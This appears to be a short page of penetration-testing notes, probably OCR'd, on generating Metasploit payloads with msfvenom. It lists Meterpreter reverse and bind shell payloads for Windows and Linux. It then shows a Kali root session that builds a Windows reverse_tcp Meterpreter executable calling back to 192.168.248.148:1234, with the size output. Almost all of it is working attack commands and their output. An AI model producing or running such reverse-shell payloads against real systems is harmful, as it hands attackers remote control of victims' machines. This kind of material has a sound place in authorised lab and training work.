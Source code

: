 ```
msfvenom --list payloads
```

```
Framework Payloads (951 total) [--payload <value>]
==================================================
windows/x64/meterpreter/reverse_http                               Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Requires Windows XP SP2 or newe
                                                                       r. Tunnel communication over HTTP (Windows x64 wininet)
windows/x64/meterpreter/reverse_https                              Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Requires Windows XP SP2 or newe
                                                                       r. Tunnel communication over HTTP (Windows x64 wininet)
windows/x64/meterpreter/reverse_tcp                                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Requires Windows XP SP2 or newe
                                                                       r. Connect back to the attacker (Windows x64)
```

```
windows/meterpreter/bind_tcp                                       Inject the Meterpreter server DLL via the Reflective Dll Injection payload (staged). Requires Windows XP SP2 or newe
                                                                       r. Listen for a connection (Windows x86)

```

```
    windows/x64/meterpreter_reverse_http                               Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
    windows/x64/meterpreter_reverse_https                              Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
    windows/x64/meterpreter_reverse_tcp                                Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
```

```
   linux/x86/meterpreter/bind_tcp                                     Inject the mettle server payload (staged). Listen for a connection (Linux x86)
    linux/x64/meterpreter/reverse_tcp                                  Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/meterpreter_reverse_https                                Run the Meterpreter / Mettle server payload (stageless)
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -f exe > payloadx86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```
